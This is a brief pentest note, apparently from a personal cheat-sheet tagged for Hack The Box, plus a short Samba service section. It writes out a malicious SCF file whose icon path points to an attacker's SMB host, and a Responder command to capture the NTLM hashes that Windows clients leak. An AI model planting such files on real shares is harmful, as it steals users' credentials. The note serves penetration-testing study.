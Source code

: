 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# SMB share - SCF file Attacks


Name it: 

**@attack.scf**

 ```vim
 [Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
 ```

Start responder and upload @attack.scf

```bash
sudo responder -wrf --lm -I <Interface>
```
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


#smb #driver #htb #responder #windows

# Samba - Linux
### Start / Stop service

```bash
sudo service smbd stop/start
```

### Configuration file
````bash
/etc/samba/smb.conf
````
